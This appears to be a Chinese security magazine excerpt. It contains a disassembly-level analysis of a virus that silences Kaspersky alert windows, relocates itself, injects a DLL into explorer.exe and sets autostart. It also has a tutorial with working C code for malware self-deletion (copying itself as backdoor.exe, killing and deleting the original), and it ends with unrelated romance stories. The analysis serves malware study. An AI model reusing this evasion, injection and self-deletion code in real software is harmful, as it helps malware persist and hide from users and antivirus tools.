00401492    PUSH EAX
00401493    PUSH EBX
; kernel32.GetModuleFileNameA
00401494    CALL DWORD PTR DS:[<&KERNEL32.GetModuleFileNameA>]
```

```asm
; MSVCRT.strrchr
0040149A    MOV EDI,DWORD PTR DS:[<&MSVCRT.strrchr>]
004014A0    LEA EAX,DWORD PTR SS:[EBP-10C]
004014A5    PUSH 5C
004014A8    PUSH EAX
; 从右找出第一个'\\'的位置
004014A9    CALL EDI
004014AB    POP ECX
004014AC    CMP EAX,EBX
004014AE    POP ECX
004014AF    JE SHORT 004014B3
; 得到病毒的当前路径
004014B1    MOV BYTE PTR DS:[EAX],BL
004014B3    PUSH 1

; 此处是对宏定义伪参数进行设置，这里没有详细看
004014B5    CALL 004016AC
004014BA    POP ECX
004014BB    PUSH EBX
004014BC    PUSH EBX
004014BD    PUSH EBX
004014BE    PUSH 00401349
004014C3    PUSH 400
004014C8    PUSH EBX
; kernel32.CreateThread
004014C9    CALL DWORD PTR DS:[<&KERNEL32.CreateThread>]
```

看到该处反汇编代码处，我们可以看出，病毒获得了系统目录及 Windows 目录的路径，还有病毒的当前路径，以及病毒的文件名。在 004014C9 地址处，调用了 `CreateThread()` 函数，该函数用来创建一个线程。CreateThread() 函数的函数原型如下：

```c
HANDLE CreateThread(
  LPSECURITY_ATTRIBUTES lpThreadAttributes, // SD
  DWORD dwStackSize,                        // initial stack size
  LPTHREAD_START_ROUTINE lpStartAddress,    // thread function
  LPVOID lpParameter,                       // thread argument
  DWORD dwCreationFlags,                    // creation option
  LPDWORD lpThreadId                        // thread identifier
);
```

```asm
; USER32.FindWindowExA
004013AF  CALL DWORD PTR DS:[<&USER32.FindWindowExA>]
...
; USER32.FindWindowExA
004013D8  CALL DWORD PTR DS:[<&USER32.FindWindowExA>]
...
004013FD  PUSH EDI
004013FE  PUSH DWORD PTR SS:[EBP-8]
; USER32.FindWindowExA
00401401  CALL DWORD PTR DS:[<&USER32.FindWindowExA>]
...
00401420  PUSH EDI
; ASCII "AVP.Product_Notification"
00401421  PUSH 00403DDC
; USER32.FindWindowA
00401426  CALL DWORD PTR DS:[<&USER32.FindWindowA>]
...
0040143C  PUSH EDI
; USER32.FindWindowA
0040143D  CALL DWORD PTR DS:[<&USER32.FindWindowA>]
...
0040144F  PUSH EAX
00401450  CALL ESI
00401452  JMP 0040135F
```

CreateThread() 函数的第三个参数是线程函数的地址，由于 WIN32 API 的调用方式是 stdcall 方式，因此函数的入栈方式是从右至左。那么线程的函数地址是在 004014BE 的指令给出，该处的指令为 `push 00401349`。既然知道了线程函数的地址是 401349，那么我们就看一下这个线程函数的代码完成了什么样的功能，代码如下：

```asm
00401349  PUSH EBP
0040134A  MOV EBP,ESP
0040134C  PUSH ECX
0040134D  PUSH ECX
0040134E  PUSH EBX
0040134F  PUSH ESI
00401350  PUSH EDI
00401351  NOP
; USER32.SendMessageA
00401352  MOV ESI,DWORD PTR DS:[<&USER32.SendMessageA>]
...
00401367  PUSH EDI
; ASCII "AVP.AlertDialog"
00401368  PUSH 00403134
; USER32.FindWindowA
0040136D  CALL DWORD PTR DS:[<&USER32.FindWindowA>]
...
00401384  PUSH EDI
00401385  PUSH EAX
; USER32.FindWindowExA
00401386  CALL DWORD PTR DS:[<&USER32.FindWindowExA>]
...
004013AA  PUSH EDI
004013AB  PUSH EDI
004013AC  PUSH DWORD PTR SS:[EBP-8]
```

从该反汇编代码处我们能看出，整个线程函数处于一个死循环中，因为函数的最后一句代码 `00401452 jmp 0040135f` 是一个向上的跳转指令。在循环中基本上只完成了一个任务，也就是不断地查找（查找窗口调用的是 FindWindowEx() 函数）某个窗口，只要找到那个窗口就调用 SendMessage 函数向它发送消息。通过它查找的窗口是“AVP.AlertDialog”和“AVP.Product_Notification”，说明这段代码是通过发送消息来躲过特定杀毒软件的主动防御。我们接着看病毒的主要流程，代码如下：

```asm
004014CF  LEA EAX,DWORD PTR SS:[EBP-14]
; windows目录
004014D5  PUSH EAX
```

## 毒蛊

```asm
004014D6    LEA EAX,DWORD PTR SS:[EBP-10C]
; 病毒当前目录
004014DC    PUSH EAX
; MSVCRT.stricmp
004014DD    CALL DWORD PTR DS:[<&MSVCRT.stricmp>]
004014E3    POP ECX
004014E4    TEST EAX,EAX
004014E6    POP ECX
; 这个分支很重要，它判断病毒的所在位置
004014E7    JNZ 00401612
```

这段代码是判断病毒的当前位置，病毒的当前位置决定了病毒的流程走向。这是在病毒中一个很重要的分支。由于目前病毒不处于 `C:\Windows` 目录下，那么流程必然会跳走，我们先来看跳走的流程，返回来再继续查看未跳走的流程：

```asm
; MSVCRT.sprintf
00401612    MOV EDI,DWORD PTR DS:[<&MSVCRT.sprintf>]
00401618    LEA EAX,DWORD PTR SS:[EBP-314]
; ASCII "mppds.exe"
0040161E    PUSH 00403020
00401623    PUSH EAX
00401624    LEA EAX,DWORD PTR SS:[EBP-20C]
; ASCII "%s\\%s"
0040162A    PUSH 0040307C
0040162F    PUSH EAX
00401630    CALL EDI
00401632    ADD ESP,10
; 保存病毒路径
00401635    LEA EAX,DWORD PTR SS:[EBP-10C]
...
; kernel32.GetModuleFileNameA
0040163E    CALL DWORD PTR DS:[<&KERNEL32.GetModuleFileNameA>]
00401644    LEA EAX,DWORD PTR SS:[EBP-210]
```

```asm
0040164A    PUSH EBX
0040164B    PUSH EAX
0040164C    LEA EAX,DWORD PTR SS:[EBP-10C]
00401652    PUSH EAX
; kernel32.CopyFileA
00401653    CALL DWORD PTR DS:[<&KERNEL32.CopyFileA>]
; kernel32.GetCurrentProcessId
00401659    CALL DWORD PTR DS:[<&KERNEL32.GetCurrentProcessId>]
0040165F    PUSH EAX
...
00401666    PUSH 40
00401668    PUSH EAX
00401669    LEA EAX,DWORD PTR SS:[EBP-210]
...
; ASCII "%s:%c%s%c%d"
00401678    PUSH 004030B4
0040167D    PUSH EAX
0040167E    CALL EDI
00401680    ADD ESP,1C
...
00401689    PUSH EBX
; 以带参数的方式启动拷贝到C盘的mppds.exe文件
0040168A    PUSH EAX
; kernel32.WinExec
0040168B    CALL DWORD PTR DS:[<&KERNEL32.WinExec>]
```

上面的反汇编代码调用了 CopyFile() 函数将自身拷贝到 Windows 目录下，并且调用 WinExec() 函数启动拷贝到 Windows 目录下的 mppds.exe，在启动的时候为 mppds.exe 带了参数，对 WinExec() 的调用栈如下所示：

```asm
0012FAF8  0012FC10  "CmdLine"  "C:\WINDOWS\...\mppds.exe C:\Documents and Settings\Administrator\桌面\4sy.exe@148"
0012FAFC  00000000  "ShowState"="SW_HIDE"
```

```asm
00401581  JNZ SHORT 0040158D
00401583  PUSH 1
; kernel32.Sleep
00401585  CALL DWORD PTR DS:[<&KERNEL32.Sleep>]
0040158B  JMP SHORT 00401572
```

我们关闭当前 OD，不要让病毒以该参数启动。我们启动另外一个 OD 来调试 Windows 目录下的 mppds.exe，并且调试时带上如上的参数。我们直接运行到那个关键的跳转处，继续往下执行，反汇编代码如下：

上面的代码是 GetCommandLine() 函数得到病毒的原来的位置，然后通过 OpenProcess() 和 TerminateProcess() 两个函数结束掉原来病毒的进程，然后调用 DeleteFile() 函数删除原来的病毒：

```asm
; kernel32.GetCommandLineA
004014ED  CALL DWORD PTR DS:[<&KERNEL32.GetCommandLineA>]
...
00401542  ADD ESP,18
00401545  MOV BYTE PTR SS:[EBP+EDI],0
0040154C  PUSH DWORD PTR SS:[EBP-4]
0040154F  PUSH EBX
00401550  PUSH 1F0FFF
; kernel32.OpenProcess
00401555  CALL DWORD PTR DS:[<&KERNEL32.OpenProcess>]
00401561  PUSH EBX
00401562  PUSH EDI
; kernel32.TerminateProcess
00401563  CALL DWORD PTR DS:[<&KERNEL32.TerminateProcess>]
00401569  PUSH -1
0040156B  PUSH EDI
; kernel32.WaitForSingleObject
0040156C  CALL DWORD PTR DS:[<&KERNEL32.WaitForSingleObject>]
00401572  LEA EAX,DWORD PTR SS:[EBP-10C]
00401578  PUSH EAX
; kernel32.DeleteFileA
00401579  CALL DWORD PTR DS:[<&KERNEL32.DeleteFileA>]
0040157F  TEST EAX,EAX
```

```asm
; ASCII "explorer.exe"
0040158D  PUSH 004030C4   ; 查找 explorer.exe 进程 PID
00401592  CALL 00401000

004015CD  CALL 0040109C   ; 释放 mppds.dll 文件

004015E6  CALL 00401F9C   ; 注入 mppds.dll 到 explorer.exe 进程

00401609  CALL 004017A5   ; 写入启动项

00401610  JMP SHORT 00401691
```

00401592 地址处的 CALL 是调用了一个函数，其函数的作用是获得 explorer.exe 进程的 PID，在其反汇编代码中依次调用了几个函数：CreateToolhelp32Snapshot()->Process32First()->Process32Next()->CloseHandle()。这个是个典型的遍历系统进程的代码，而在遍历的过程中始终在拿进程名与 “explorer.exe” 进行比较，如果相等则会结束遍历过程，并返回 explorer.exe 进程的 PID。

004015CD 处的 CALL 调用的函数是释放一个 DLL 文件到系统路径，其反汇编代码中依次调用了如下几个函数：FindResource()->SizeofResource()->LoadResource()->SetHandleCount()->fopen()->fwrite()->fclose()。

## 毒施

这是个典型的通过资源释放文件的过程，该过程从 mppds.exe 文件的资源中释放出 mppds.dll 文件到系统目录下。004015E6 地址处的 CALL 调用的函数是将释放出来的 mppds.dll 文件注入到 explorer.exe 进程中，也就是说地址 401592 的 CALL 和地址 4015CD 的 CALL，是为当前地址的注入做准备的。在分析代码时我们可以看一些主要的代码，整个功能也就明白了。004015E6 地址处 CALL 的函数中调用了 CreateRemoteThread() 函数，通过这个函数我们就能确定该函数的目的是用来进行注入的。00401609 地址处的 CALL 是将病毒加入到注册表的启动项中，因为在这个 CALL 中调用了注册表操作相关的函数。

另外配合几个字符串常量，我们就很容易地发现了该函数的作用了。到这里，整个病毒的功能我们就分析完成了。至于释放出来的 mppds.dll 的功能这里就不再继续分析了。我们这里完整地分析了一个病毒，从我们分析的过程中可以看出，熟悉 Win32 API 和一些编程知识对于我们分析病毒是非常有帮助的。在反病毒厂商招聘病毒分析师时，其中就要求熟悉 Win32 API、C 语言、汇编语言等知识。如果有对反病毒有兴趣的朋友，可以到一些反病毒网站参考一下他们关于病毒分析的招聘要求，就可以有方向性地进行学习了。希望这篇文章能给你带来帮助。

### 另类病毒的自删除方法

枯叶

常见的病毒自删除方法是通过批处理来完成的。首先病毒会创建一个批处理文件，然后病毒调用批处理文件来删除自己，最后批处理再将自己也删除掉。而本文章介绍的方法不是以批处理来完成的，这个方法是我通过分析一个病毒样本时得来的方法，本着共享的精神将该方法写出来，供大家一起学习与参考。

我们来介绍一下这种自删除的思路。

- 首先，病毒在我们的磁盘上第一次启动时，会将自身拷贝到系统目录下。而病毒的当前位置通常不会在系统目录下。比如说，我们下载了一个软件到 D 盘中，这个软件的名字为 muma.exe，运行这个程序后它会将自身拷贝一份到系统目录下叫 backdoor.exe。病毒如何判断自己是否是第一次运行呢？它的依据是自己所在的位置，如果病毒在系统目录下则认为自己不是第一次运行，否则就视为自己是第一次运行。
- 第二，病毒第一次启动将自己拷贝到其他目录后，将要完成自删除的动作。那么病毒如何完成自删除的动作呢？病毒先得到自己所在的目录及文件名，比如是 D:\muma.exe，然后病毒在将自己拷贝到系统目录后，会运行系统目录下的病毒副本，并将它当前的位置及文件名以参数的方式传递给系统目录下的病毒。
- 第三，系统目录下的病毒被原病毒启动，并且得到了原病毒的位置。这样，系统目录下的病毒副本，根据原病毒提供的位置和病毒的文件名，将原病毒进程结束掉，并将原病毒删除掉。病毒的流程如图 1 所示。


图 1

既然我们有了病毒的流程，那么我们就来实现其代码。我们要先完成几个通用的函数：从进程名得到进程的 ID、调整进程权限到调试权限、结束某个进程。这三个函数是我们要用到的函数，我们先完成它们。代码如下：

```c
// 调整权限
VOID DebugPrivilege()
{
    HANDLE hToken = NULL;
    BOOL bRet = OpenProcessToken(GetCurrentProcess(), TOKEN_ALL_ACCESS, &hToken);
    ...
}
```

```c
if ( bRet == TRUE )
{
    TOKEN_PRIVILEGES tp;
    tp.PrivilegeCount = 1;
    LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &tp.Privileges[0].Luid);
    tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    AdjustTokenPrivileges(hToken, FALSE, &tp, sizeof(tp), NULL, NULL);
    CloseHandle(hToken);
}

// 获得某进程的PID
DWORD GetProcessId(char *szProcessName)
{
    DWORD dwPid = 0;
    BOOL bRet = 0;
    PROCESSENTRY32 pe32 = {0};
    pe32.dwSize = sizeof(PROCESSENTRY32);

    HANDLE hSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    bRet = Process32First(hSnap, &pe32);
    while (bRet)
    {
        if (strcmp(pe32.szExeFile, szProcessName) == 0)
        {
            break;
        }
        bRet = Process32Next(hSnap, &pe32);
    }

    dwPid = pe32.th32ProcessID;
    return dwPid;
}

// 结束某进程
VOID CloseProcess(DWORD dwPid)
{
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwPid);
    TerminateProcess(hProcess, 0);
    CloseHandle(hProcess);
}
```

这几个函数完成后，我们就来根据病毒的流程来完成病毒的主体代码，代码如下：

```c
int main(int argc, char **argv)
{
    // Windows目录
    char szWinDir[MAX_PATH] = {0};
    // 当前目录
    char szCurrDir[MAX_PATH] = {0};

    GetWindowsDirectory(szWinDir, MAX_PATH);
    GetModuleFileName(NULL, szCurrDir, MAX_PATH);

    // 获取当前的目录
    int ch = '\\';
    char *pFileName = strrchr(szCurrDir, ch);
    int nLen = strlen(szCurrDir) - strlen(pFileName);
    szCurrDir[nLen] = NULL;

    if (strcmp(szWinDir, szCurrDir) == 0)
    {
        // 相同目录
        // 判断参数个数
        // 根据参数个数判断是否需要删除原病毒文件

        // 如果病毒是开机自动启动的话, 不会带有参数
        printf("argc = %d \r\n", argc);
        if (argc == 2)
        {
            ch = '\\';
            pFileName = strrchr(argv[1], ch);
            pFileName++;
            printf("pFileName = %s \r\n", pFileName);

            DWORD dwPid = GetProcessId(pFileName);
            printf("dwPid = %d \r\n", dwPid);
            DebugPrivilege();
            CloseProcess(dwPid);
            pFileName = argv[1];
            printf("pFileName = %s \r\n", pFileName);

            Sleep(3000);
            DeleteFile(pFileName);
        }
    }
}
```

## 毒全

```c
}
else
{
    // 病毒的功能代码
}
}
else
{
    // 不同目录，说明是第一次运行
    // 复制自身到windows目录里
    strcat(szWinDir, "\\backdoor.exe");
    GetModuleFileName(NULL, szCurrDir, MAX_PATH);
    CopyFile(szCurrDir, szWinDir, FALSE);

    // 构造要运行windows目录下的病毒
    // 以及要传递的自身位置参数
    strcat(szWinDir, " ");
```

```c
strcat(szWinDir, szCurrDir);
strcat(szWinDir, "\"");
printf("%s \r\n", szWinDir);
WinExec(szWinDir, SW_SHOW);
Sleep(1000);

// getch()模拟病毒的动作
// 保持病毒进程不退出
getch();
return 0;
}
```

在代码中我们给出了详细的流程，而且在介绍代码之前，我们也有详细的流程描述。想必对于这种自删除的方法都已经掌握了。虽然这种方法没有太多的技术性，关键是它的思路比较好。启动一个程序时，可以为其传递参数，从而控制进程在运行时的动作，而参数的来源，也来源于自己的上一次运行。希望本文能给大家带来更多的思路。

> （文中涉及的相关程序本期光盘已收录）

## 隐隐仙踪

#### 看脸图（术）

妖腰

#### 恋爱了？

> Something must be wrong.

Why I feel so nervous everyday.

Is that you?

Is that you standing in my darkness and staring at me?

我若当真交予你一半的白昼，你如何守待被减缩的黑夜。

——题

反正不管哪个原因，蔡小青是默许了九尾狐关于“相亲”这个提议的，所以完全无法预料后面的悲剧状况。九尾一直在蔡小青耳边淳淳善诱，说神马尽管男人们鱼龙混杂，良莠不齐，但是你要相信，总有个属于你的那位Mr.right。

第一位与蔡小青相亲男是个高端的海归男，是九尾通过手段从相亲网上选择出来的。莫城希，从欧美留学归来的，在北京自己创业，自营技术公司，而立之年尚未结配。九尾得意洋洋的举着莫城希的资料简介，一个劲儿对蔡小青推荐，说莫城希百分百符合蔡小青的要求。蔡小青事先也通过邮件跟莫城希聊了阵子，感觉莫城希聊天有点欧美国家的惯常幽默，跟他说话也是轻松自得，便应允了相亲见面。

往事总有缺口，各自抱着伤痕远走。

当九尾狐信誓旦旦地说“这次一定成功”的时候，蔡小青已经决定完全抛弃她的所谓相亲能够找到真爱的脑残想法了。

她有时觉得九尾狐心里到底在图谋一些什么，看似胡闹不羁，却又像是在暗暗引导些什么。跟着九尾狐去了几趟乱七八糟的相亲会之后，蔡小青心里就开始后悔当初为什么喊出了那句“真的好想谈场恋爱啊！”的话来，还好死不死的被一直暗中跟着她扮路人状的九尾狐听见了，于是才有了后面几场荒诞不羁的所谓“以爱之名义的神圣相亲会”。

去掉那些繁杂的修饰词，其实这也就是个相亲会，而蔡小青也不知道为什么之前自己很抗拒的父母天天催命似的相亲，到了九尾狐这里反而会痛快答应了，是因为九尾狐不再逼着自己去完成剩下两次穿越了？还是因为九尾狐热情期待兴致勃勃的目光灼伤了她的眼？还是因为时机成熟自己真的想谈……

蔡小青和莫城希在网上聊得还算不错，彼此也阅过了照片。莫城希看起来有点婴儿肥，但是还算顺眼不算难看，蔡小青本身也本身什么美女就也不挑剔，于是顺利约好见面。

见面的时间是周六，约见的地点是在市中心某个商场的KFC。约在KFC见面是蔡小青提出的要求，因为毕竟这地方，阳光，透亮。女方不会有借相亲讹人之嫌，男方又没有经济上的担忧和负担。这样对双方都比较好，蔡小青心里是这么盘算的。

大约是到了约定的时间，莫城希来了。

可以说，这第一次的相亲，蔡小青还是很充满期待的，心里会经常揣测，当一个活生生的男生出现在自己面前的时候，会与照片有多大的差异。是会比照片更好，还是稍差？还有很多很多关于见面后聊天内容的大致规划等等……

### 侠隐仙踪

但是，当他真的出现以后，还是着实雷住了蔡小青。模样是他，身材是他，谈吐是他，一切都是他……唯一独，他的身高，绝对穿透了蔡小青所能接受的底线。他，属于那种跟163CM的蔡小青并肩走还稍微矮一点的程度，总之并排走路时的感觉真的蛮奇怪蛮奇怪的。

蔡小青自诩不是外貌协会的，虽然对莫城希的身高有点儿失望，但见了以后，尽管内心已经是翻江倒海，但仍是压抑着，幻想或许莫城希人真的不错，那么矮一点也没太大关系吧。蔡小青伸手摸了摸左手腕上的镯子，这是九尾送她的一件神器；当人撒谎时镯子上的翠色宝石便会微微发光，怕蔡小青第一次相亲就被骗，九尾特意回青丘山替她找来这么个东西。

于是，蔡小青跟在莫城希后面，亦步亦趋，走进了KFC。蔡小青在身后，还会偷偷瞄着莫城希，每瞄一次，心里就发的忐忑不安，不知道是开心呢还是紧张呢还是期盼呢还是失望呢，五味陈杂。

莫城希回头温和的问蔡小青，要吃什么？蔡小青呆呆的空气地回话，说我只想吃个薯条，彼时，蔡小青其实匆忙而来，并没有吃东西，肚子饿饿的；但是，蔡小青隐约有不好的预感，觉得这次相亲可能会失败，所以还是不想过多纠缠。

莫城希也没多客气，自己倒是点了汉堡、可乐、鸡翅、圣代，在临付钱的时候，他突然微微一笑，“抱歉，蔡小姐，我忘记带现金了；身上只有信用卡，而这里又不能刷卡，所以……”

蔡小青愣了下，才会过意来，莫城希这意思是让她来结账是么？手腕忽然一紧，手镯上的翠色宝石璀璨闪着光彩，蔡小青心下了然，莫城希这是在说谎呢，是舍不得这点寒酸的饭钱还是在试探她呢？不管是什么结果，她都不太喜欢这样。

懒得这般猜度人心，一顿KFC而已，蔡小青毫不犹豫的掏出钱包，爽快买单。于是，在后来的整个相亲过程中，蔡小青只是低头一根一根吃着薯条，不怎么说话，气氛有点儿沉闷。

“哎，蔡小姐是做什么工作的呢？”莫城希托了托眼镜，自以为颇有风度问了蔡小青这么一句，打算打开话题打破沉默。

“程序员。”简洁的三个字，蔡小青说完继续

一根一根吃薯条。

“哦，女孩子很少有做程序员的呢，我朋友还跟我开过程序员的玩笑呢，说是嫁人一定要嫁程序员，人傻钱多死得早呢：那同理的话，要娶娶程序员是不是也会很好呢？”

莫城希又开始自以为是的美国式无聊冷幽默了，脸上还有微微得意的笑容。

蔡小青手一紧，捏碎了手上那根薯条，却仍旧是面色不变，淡淡答道，“莫先生，我不知道女程序员是否是如你所说的那样人傻钱多死得早，我只知道现在倒是不少海归都是美国西太平洋野鸡大学混出来的，您也是海归，是跟唐骏是校友么？”

莫城希脸色一变，讪讪笑着却答不上话来，那天，他似乎后来又说了很多，但是很抱歉，蔡小青忘了他任何一句话；在此，蔡小青向海归精英范儿的莫城希致以诚挚道歉。

孔子提出，人只要能做到恭、宽、信、敏、惠这五点，就可以称之为志士仁人。即恭敬、宽厚、诚信、敏捷、惠志。然，蔡小青承认彼时的自己，未能恭敬，未能宽厚，这在今后的日子中，自己会慢慢修正。但是那时那刻，我蔡小青，尚未修炼如此豁达仁爱心胸。

导致之后的扬长而去，导致，之后再不跟莫城希有任何联络。导致，再不接莫城希电话了。

这是倒霉程序员剩女蔡小青的第一次相亲经历吧，简称“处女相”，草草收场，无果而终，遭遇不大不小的一恶心JP……

此次相亲，蔡小青还总结了一下经验：对即将出现的相亲对象，不要心存过高期待，即便对方某些方面不让自己满意，也要好好大礼相待，毕竟也属于里之缘，珍惜之……

得之我幸，失之我命，如此而已。

晚上在家里开着电脑，随意浏览着网页，蔡小青又有点儿觉得单身没什么不好，一个人多自由，如果真要让她跟莫城希那样子虚伪小气的海归精英过日子，那她还不如立刻死掉好。即时莫城希很有钱，可是她不喜欢他，不喜欢他那种自以为是斤斤计较的虚伪样子，更不喜欢他高高在上俯视自己的姿态。

蔡小青觉得她的爱情，就该是如舒婷的《致橡树》中描述的一般，木棉和橡树，作为平等的存在，相知相爱，却是不离不弃，共同分担寒潮、风雷、霹雳；共享雾霭、流岚、虹霓。

轻轻拨弄了一下桌子上的瓶子，这是一款名为blk的功能饮料包装，蔡小青很喜欢这款饮料，因为它有个特别之处，其饮料是纯黑的，在包装设计上使用了透明塑料瓶，瓶身印有纯黑文字，满瓶时看不见，喝掉之后显露出“Enjoy the dark side”（享受黑暗面）。

享受黑暗面。这是多么有哲理的一句话呢，蔡小青轻轻闭上眼。

午夜十一点半。

贝城是不夜城，蔡小青对着越是渐入深夜越是显得繁华喧闹的城市这样想，而在这样的城市里你或者日夜颠倒昼伏夜出或者度日如年分秒都是虚设。你可以没有理想，没有青春，甚至没有金钱，但在这样日益昌盛的城市里，你无法不去奢望一场爱恋。

蔡小青将视线从街上一排一排亮起将街景点亮恍若白昼的路灯挪开，垂下眼睑静望着blk的空瓶子，轻轻地笑出了声。

还是，没有来啊。即使早知道，她期待的那样的一个人，要经过多么遥远的距离才能抵达到她的生命。那样的一个人——蔡小青咬紧下唇，眸色更深了些，那样的一个人，又如何值得你这样倾尽所有地将自己所有美好年华的青春与曾经梦一样的理想都全部奉上，只为等待那样的一个人的出现，而他可能终生都不会出现。

即使你愿意让自己成为他一个人的花朵，可是会有这样的人出现容下你的灿烂娇艳么。往往是良辰好景奈何天，把那一腔情丝空缱绻。

她蜷缩起身子，多像个贝壳，害怕被人触碰，她恍惚间仿佛觉得那被杂乱安置毫无章法却又处处都渗着温情的，是自己。是自己早已被耗尽已不堪重负的沉甸甸的情感，是自己早已经干涸再涌不出泪水的双目，是自己，只能绽出麻木单调冷淡疏离笑意的唇瓣。这个世界始终那样的大，广阔无边得让她不知道自己是占据了哪一片方寸之地，或者，那只属于她的领地尚不及她扎根安眠。

弄堂口的风笔直笔直地穿过未关上的窗穿过她驼色的风衣灌进她的内心的缝隙。似是觉得不堪忍受，她缓缓地，低下了身。竟是淌出了眼泪。

蔡小青有时候会想，像我这种不讨喜的姑娘活该是没有人爱的吧。

像我这种性格上没有亮点长相上平凡无奇的人，有时候又情绪化的让周遭的人都惊恐不已，这样的姑娘，活该是没有人爱的吧。

她这样想着，就禁不住觉得悲伤和难过，她想，我一辈子都会这样了，我一辈子都要没人爱了吗。

> 电脑里昼夜放着那首《孤儿仔》，“谁说会与我骑回旋木马，天黑透了伴我一起归家。是我或你犯错了吗，人被半路撒下，受那风吹雨打。”

谁人爱我这种孤儿仔。

九尾狐在暗处看着陷入悲伤的蔡小青，眼波流转，眼底有一抹说不出的情愫，她看着蔡小青听着这首歌睡着着，又在这首歌的歌声里醒过来，又沉沉睡过去。

她不知道要怎么去抚慰她，只是静静看着她这一天来的挫折和沮丧，几次欲插手却隐忍下来，她的路终究是要自己走，她没办法帮她一辈子，那么在最开始，除了提供机会，她便不能再过多插手。

九尾狐试探地伸出手，轻轻擦掉熟睡中的蔡小青眼角的泪水。

然后伸手替她掖好被子，蔡小青的哭泣，这让她觉得无措。她身为异类何曾知道人心里百转千回的心思，好不容易想开开心心帮回人，却还是惹的人伤心了。

大概是在这样午夜梦回的时候特别容易被某种情绪袭击，九尾都有些伤感了。

她想，大概所有人都会有这样的时候吧。

这样的软弱的只能让记忆侵入，假装不动声色内心却早已巨浪滔天的时候。

> “掌心因此多出一根刺，没有刺痛便懵知，就当共你有剧情没故事。”

九尾皱了皱眉，她想蔡小青怎么老在放这样伤情的歌；从电脑里翻出播放器一看，原来设置了单曲循环。

替她关了电脑，九尾回首深深看了一眼蔡小青。

其实有什么大碍呢，向前走便是了。

不要悲伤，我的姑娘。

会有一天有个男子站在你父亲面前说以后他就拜托我照顾吧。

会有一天在你难过掉眼泪的时候他会帮你擦眼泪静静的握住你的手。

会有一天他会陪着你白头到老忘记所有忧伤数着对方的皱纹过着悠闲的日子。

时间会帮我的忙。它会赐予你最珍贵的礼物。

所以，我的女孩，请耐心等待。

无论世事有多艰难，我们总要好好过下去。

生活生活，明天我们好好的过。


### 输给了一个过去

有多少爱可以重来，有多少人可以等待，当爱情变成沧海桑田，你是否还有勇气去爱……”

“林子枫，放学留在教室里，我有话跟你说。”我狐疑的看着你，还没有说话，你就走开了。放学了，我留下了，这也许是我高中三年做的最正确的决定，因为那天我留下了，所以才有了我们之后的故事。

## 林子枫

记得在高中的时候，在那个青涩的年纪，那时的同学都知道我林子枫喜欢你更俏皮。

那时你是班里第一名，而我却是一直停留在倒数十名之内，你是老师的骄傲，而我，只是那个在角落里被遗忘的人。

最初时的我很讨厌你，因为你是班长，是老师安排在班里的眼线，我处处针对你，还记得吗？你刚刚擦干净黑板，出去洗干净手回来后却发现上面又充满了涂鸦，你生气地站在讲台上问是谁弄得，没人敢告诉你。你哭了，我笑了，后来不知道是谁偷偷告诉了你，下课后你找到了我，说：“林子枫，你个垃圾！”，我没有理你，从那之后一切照常，我还是处处针对你，你的作业发下来时总是脏兮兮的，你的凳子上总是会有一滩水，你的课桌里也总是会有我恶作剧写给你的情书……似乎，你已经习惯了这样的生活。直到有一天，课间里我正坐在角落里看着黑客杂志，你走到我身边，对我说：

那天，教室里只剩下了咱们俩，夕阳的余晖洒进了教室，我坐在角落里看着杂志一直没有说话，你走到我旁边首先打破了沉静。

你说：“林子枫，你为什么针对我？”

我看着杂志，头都没抬就说：“没有啊，我针对你干什么？”

“那我的作业是谁给弄脏的？我的凳子上面怎么会有水？那些无聊的情书是谁写的？”

“我怎么知道？”

“你别看了！”你夺过我的杂志，“林子枫，不管你为什么针对我，有本事咱们比学习，你这样整人有什么意思？”

我抬起头看着你，夕阳中，你是那么美丽，我就那么一直看着你，没有说话。

你看我不说话于是你接着说：“你害怕了”“吧？”

“害怕什么？”我站起来说：“比就比，谁怕谁是孙子！”

“那好，从现在起，每次考试只要我赢了，你就不许再针对我！”

“可以，不过，只要有一次我赢了，你就要做我的女朋友！”

“这……”你沉吟着，过了一会儿说：“好！”

也许你认为，就我这样的人，这辈子也不会比你考得好。

后来，班里没有了那个爱打架的男生，没有了那个经常针对你的男生，没有了那个上课看杂志的男生。我变了，我开始好好学习了，只是为了要让你做我的女朋友。

大家都惊讶于我的变化，但当大家看到我看你的眼神时就都明白了什么，全班里只有你一个人不知道。

之后的一年多的时间里，虽然我很努力，成绩提高得也很快，但我每次考试都比不过你，我也一直遵守着我的诺言。

我一直没有敢跟你说话，总是不好意思。跟我关系不错的哥儿几个都替我着急，于是有一天，有人偷偷以我的名义给你写了一封情书放到了你的课桌里。那天你生气了，你拿着那封情书找到我，直接把它扔到了我的脸上，愤怒地对我说：“林子枫，我要你告诉我这是怎么回事！”

## 夏陌诗

那天，看到了你的情书，我不知道是怎么回事，我想知道，这一次到底是你的恶作剧还是你的表白。可是那天你看着那封情书，什么都没说，只是把它揉成一团，然后出去了。只留下我怔怔地站在那里。然后我们听到楼道里有打架的声音，出去一看才知道你跟一个男生打起来了。原来，那封情书是别人写的，原来，不是你……

是的，我喜欢上你了。就在你说如果你赢了就让我做你女朋友的那一瞬间，我看着夕阳中的你，心跳加速了。于是，每次考完试，我都会去看成绩单，看看你是否赢了我。虽然你的成绩已经很不错了，但是每次你都没有超过我。

我从小就将心事藏在心里，至于我对你的感觉，我更不可能告诉别人，所以每次见到你我都假装看不到，跟你说话时也是冷冰冰的。但是这并不代表我不在乎你呀。还记得吗？平安夜那晚，你的课桌里出现了一个苹果，那是我偷偷放进去的。也许是送你苹果的人太多了，你根本没有注意到多出来的这一个苹果。

你还记得吗？在高考的前一晚，大家都在操场上狂欢，你走到我身边，对我说：“明天就是我超过你的最后一次机会了，真希望能够超过你……”这，是你的表白吗？

最后，高考成绩出来了，你竟然考了全班第一！而我，只是第二。那晚，你给我打电话，你说：“夏陌诗，我考了第一，我赢了！”

我淡淡地说了声“哦”。

你接着说：“那你是不是要履行你的诺言？”

我没有说话，我怎么好意思告诉你“可以，我做你的女朋友吧”？

你也沉默了一会儿，然后就挂断了电话；而我，在你挂断的那一瞬正好说出了一句“可以”，只是，你没听见……

之后的日子里咱们再没有联系。我上大学、工作，手机里一直存着你的手机号。我没有给你打过电话，没有发过短信，我甚至不知道你是不是早已换了号码。

直到有一天，我收到了你的短信，你说：“今晚有月食，快去看！”

我拿着手机泪如雨下，因为我知道你没有换手机号，而且你也一直留着我的号码……

